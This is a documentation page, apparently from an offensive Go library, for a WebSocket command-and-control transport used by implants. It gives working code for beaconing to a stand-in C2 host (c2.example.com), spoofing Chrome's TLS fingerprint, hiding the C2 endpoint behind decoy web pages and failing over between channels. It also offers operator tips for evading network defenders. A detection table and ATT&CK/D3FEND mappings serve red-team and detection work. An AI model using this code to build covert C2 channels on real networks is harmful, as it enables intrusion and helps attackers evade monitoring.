

# WebSocket transport

[← c2 index](README.md) · [docs/index](../../index.md)

## TL;DR

C2 channel riding HTTP/1.1 + WS upgrade. Blends with the constant
WebSocket traffic modern web apps emit (Slack, Discord, Teams, every
"live" dashboard). Both ends ship in this package — dial side
(`NewWebSocket`) and accept side (`NewListener` / `NewServer` /
`Handler`) — and both compose with `transport.Router` for fallback
and `transport.UTLSDialer` for JA3 spoofing.

| You want to… | Use | Notes |
|---|---|---|
| Dial ws:// or wss:// from the implant | `NewWebSocket` | Satisfies `transport.Transport`; pluggable into `Router` |
| Standalone listener on one path | `NewListener(addr, path, opts...)` | Opens TCP + http.Server + serves the WS path |
| Co-host C2 with decoy pages | `NewServer` / `Handler` | Returns handler + Accept queue separately, mount on your own ServeMux |
| Spoof JA3 = Chrome on the TLS underneath | `WithUTLSConfig` | Reuses the shared `transport.UTLSDialer` helper |

## Primer

Plain TCP / TLS C2 is loud on flow analysis: beacons every N seconds,
small request → small reply. A real Slack tab opens a single WS and
streams ~200 frames per minute (typing indicators, presence, channel
state) — nothing like a beacon. If the implant rides that pattern,
the campaign disappears into the noise of `wss://*.slack-edge.com`.

Three properties enforced:

1. **Byte-stream wrapper.** WS is message-framed; `Transport` is a
   byte stream. The library wraps `*websocket.Conn` via
   `websocket.NetConn(ctx, c, MessageBinary)` so callers see a
   uniform `Read([]byte)` / `Write([]byte)` API.
2. **Mutex released before close-frame.** Lesson from the
   `Router.markLost` /simplify: a slow TLS `close_notify` must not
   stall concurrent readers. `Transport.Close()` snapshots + nils
   under lock, then sends the close frame unlocked.
3. **Accept-side backpressure.** The handler pushes to a buffered
   queue (cap 16) with a non-blocking `select`. Overflow drops the
   conn cleanly (`StatusTryAgainLater`) rather than DoS-ing the
   server with a flooded implant.

## How It Works



Dial side: optional uTLS handshake → optional TLS → WS upgrade →
`NetConn` wrapper. The Router treats it like any other `Transport`.

Accept side: `http.Handler` upgrades each request, wraps the conn
with `signalConn` (so the handler stays alive for the conn's
lifetime), and queues for `Accept(ctx)` consumption.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/c2/transport/websocket`](https://pkg.go.dev/github.com/oioio-space/maldev/c2/transport/websocket)
is the authoritative reference.

## Examples

### Simple — plain ws://

```go
tr := websocket.NewWebSocket("ws://c2.example.com:8080/api/sync")
if err := tr.Connect(ctx); err != nil {
    return err
}
defer tr.Close()
tr.Write(checkinFrame)
n, _ := tr.Read(replyBuf)
```

### Composed — wss:// + uTLS + realistic headers

```go
utlsCfg := &utls.Config{ServerName: "c2.example.com"}
tr := websocket.NewWebSocket(
    "wss://c2.example.com:443/socket.io/?EIO=4&transport=websocket",
    websocket.WithUTLSConfig(utlsCfg, utls.HelloChrome_Auto),
    websocket.WithHeader("User-Agent",
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36..."),
    websocket.WithHeader("Origin", "https://c2.example.com"),
    websocket.WithSubprotocols("c2.v1"),
)
_ = tr.Connect(ctx)
```

The JA3 fingerprint matches Chrome at the TLS layer; the upgrade
request looks like a real socket.io reconnect. Detection level on this
combination is **moderate** rather than the loud "weird TLS + naked
WS" you'd otherwise get.

### Advanced — co-host with a decoy page via `Handler`

```go
handler, lst := websocket.NewServer(
    websocket.WithOriginPatterns("c2.example.com"), // lock CSRF
)

mux := http.NewServeMux()
mux.Handle("/api/sync", handler)              // C2 endpoint
mux.HandleFunc("/", landingPage)              // decoy
mux.HandleFunc("/health", healthCheck)        // looks alive

go http.ListenAndServeTLS(":443", "cert.pem", "key.pem", mux)

for {
    conn, err := lst.Accept(ctx)
    if err != nil { return }
    go dispatch(conn)
}
```

Visitors hitting `/` see a real-looking page; the C2 channel hides
on `/api/sync`. Defender pivoting on "domain serves WebSocket"
finds a legitimate-looking app.

### Complex — Router fallback HTTPS → WS

```go
https := transport.NewUTLS("c2.example.com:443", 30*time.Second)
ws    := websocket.NewWebSocket(
    "wss://c2.example.com/api/sync",
    websocket.WithUTLSConfig(utlsCfg, utls.HelloChrome_Auto),
    websocket.WithHeader("User-Agent", chromeUA),
)
r, _ := transport.NewRouter([]transport.Transport{https, ws},
    transport.RouterConfig{InitialBackoff: 2 * time.Second, MaxAttempts: 3})
_ = r.Connect(ctx)
```

When the primary HTTPS channel fails (operator's redirector goes
dark), the Router falls over to WS. The implant keeps beaconing
without a config change.

## OPSEC & Detection

**Origin check default is permissive.** The listener's
`InsecureSkipVerify` flag on the WebSocket handshake is `true` by
default. This is **correct for an implant channel** — the client
never sends a browser-style `Origin` header — but it means a browser
that knows the URL can also open a WS. When co-hosting with a real
site whose users could discover the path, **always** pass
`WithOriginPatterns("yourdomain.com")` to lock the CSRF surface.

| Artefact | Where defenders look |
|---|---|
| `Sec-WebSocket-Protocol: c2.v1` (or any unique subprotocol) | NTA / SIEM subprotocol-frequency stats |
| Absent `Origin` header on a WS upgrade behind a "real" site | Reverse-proxy log analytics |
| No permessage-deflate negotiation when User-Agent claims Chrome | TLS+HTTP fingerprint correlation |
| Long-lived idle WS with no application frames | Flow-duration outlier hunters |

**D3FEND counters:**

- [D3-NTA](https://d3fend.mitre.org/technique/d3f:NetworkTrafficAnalysis/) — flow analysis on WS heartbeat cadence.
- [D3-EHB](https://d3fend.mitre.org/technique/d3f:NetworkIsolation/) — egress filtering on unexpected wss destinations.

**Hardening for the operator:**

- Pair with [`evasion/sleepmask`](../evasion/sleep-mask.md) so the
  implant memory looks dormant between WS frames.
- Send realistic application-layer chatter on idle (fake "presence"
  pings) rather than truly silent sockets.
- Use [`WithUTLSConfig`](#example--composed---wss--utls--realistic-headers)
  with `HelloChrome_Auto` — `HelloGolang` is its own fingerprint.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1071](https://attack.mitre.org/techniques/T1071/) | Application Layer Protocol | full — WS over HTTP/1.1 upgrade | D3-NTA |
| [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Web Protocols | sub — composes with malleable HTTP profile | D3-NTA |
| [T1090.004](https://attack.mitre.org/techniques/T1090/004/) | Domain Fronting | partial — when paired with `WithUTLSConfig` for SNI/Host split | D3-NTA |

## Composability

Three properties make WS compose cleanly inside the maldev tree:

- **It is a Transport.** Anything taking `transport.Transport`
  takes a `NewWebSocket(...)` result. Use it inside `Router` slices
  for fallback. Nest tiers via `Router` of `Router`s if you need
  multi-tier failover.
- **It reuses `transport.UTLSDialer`.** The same JA3 spoof you'd
  apply to `NewUTLS` plugs into the WS dial via `WithUTLSConfig`.
  Zero duplication.
- **Server-side splits Handler ↔ Listener queue.** `NewServer`
  returns both halves so the operator decides whether to run a
  dedicated server (`NewListener`) or co-host inside an existing
  `http.Server` with decoy paths.

## Limitations

- **No WebSocket-over-HTTP/2 (RFC 8441).** `coder/websocket` doesn't
  support h2-WS, and it's rare enough in the wild that the
  fingerprint signal (uncommon NPN/ALPN) outweighs the blending
  value. Use h1 WS over uTLS for the strongest blend.
- **No applicative auth.** Bearer tokens / mTLS gating belong in
  the WRAITH teamserver, not this primitive.
- **Single-path standalone listener.** `NewListener(addr, path, ...)`
  serves exactly one path. For multi-path co-hosting use `Handler()`
  + your own `http.ServeMux`.
- **`connCh` buffer caps backlog at 16.** Bursts beyond that drop
  cleanly with `StatusTryAgainLater`. Tune by passing a different
  configuration only if you genuinely expect >16 simultaneous
  implant check-ins per server.

## See also

- [`c2/transport.Router`](multi-channel-router.md) — N-channel fallback over `Transport`s including this one.
- [`c2/transport.NewUTLS`](transport.md) — sibling JA3-spoofing TLS transport, same `UTLSDialer` helper.
- [`c2/transport.Malleable`](transport.md) — HTTP Malleable C2 profile transport.
- [`c2/pivot/socks5`](socks5-pivot.md) — beacon-side SOCKS5 pivot.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
